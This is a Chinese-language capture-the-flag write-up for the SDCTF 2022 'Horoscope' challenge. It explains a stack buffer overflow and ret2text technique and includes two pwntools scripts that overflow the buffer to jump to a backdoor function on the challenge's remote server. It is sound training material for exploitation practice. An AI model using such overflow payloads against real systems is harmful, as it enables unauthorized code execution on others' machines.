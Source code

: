 ## 基本信息

- 题目名称：[SDCTF 2022]Horoscope
- 题目链接：https://www.nssctf.cn/problem/2381
- 考点清单：ret2text，REVERSE
- 工具清单：gdb，python-pwntools

- payloads：详见本文末尾

## 一、看到什么

- 反汇编发现4个自定义函数

![](./images/horo-func.png)

- 发现test函数是后门，需求temp==1，同时debug函数可以设置temp=1

![](./images/horo-backdoor.png)

- main函数fgets传参0x140大于为字符串预留的存储栈空间0x30，存在栈溢出

![](./images/horo-vuln.png)

- 最后看最复杂的processInput，一个switch-case

![](./images/horo-processInput.png)

- 注意到非1到12的前序输入会导致程序提前exit，因此需要特殊处理前序字节

![](./images/horo-switch.png)

## 二、想到什么解题思路

### 第一轮

-   栈溢出+前序字节特殊处理，跳转至debug，为test赋值为1
-   跳转至backdoor（test）

### 第二轮

- 可以直接跳过test的校验，直接跳转至系统调用

## 三、尝试过程和结果记录

### 第一轮

-   payload=b‘1’+b’a‘ *(30 + 7)+p64(debug_addr)+p64(test_addr)
-   debug_addr = 0x40096e
-   test_addr = 0x400950

### 第二轮

- payload=b‘1’+b’a‘ *(30 + 7)+p64(backdoor)

- backdoor = 0x40095f

## 四、Payload

- payload1：

```python
from pwn import *

lc = "./horoscope"

rm = "node4.anna.nssctf.cn"
prt = 28991

elf = ELF(lc)
#p = process(lc)
p = remote(rm,prt)

test_addr = p64(0x400950)
debug_addr = p64(0x40096e)
padding = b'1'+0x37*b'a'
payload = padding + debug_addr + test_addr 

#context.terminal = ['tmux','splitw','-h']
#gdb.attach(p)
#pause()

p.sendline(payload)

p.interactive()
```

- payload2：

```python
from pwn import *

lc = "./horoscope"

rm = "node4.anna.nssctf.cn"
prt = 28991

elf = ELF(lc)
#p = process(lc)
p = remote(rm,prt)

backdoor = p64(0x40095f)
padding = b'1'+0x37*b'a'
payload = padding + backdoor

#context.terminal = ['tmux','splitw','-h']
#gdb.attach(p)
#pause()

p.sendline(payload)

p.interactive()
```

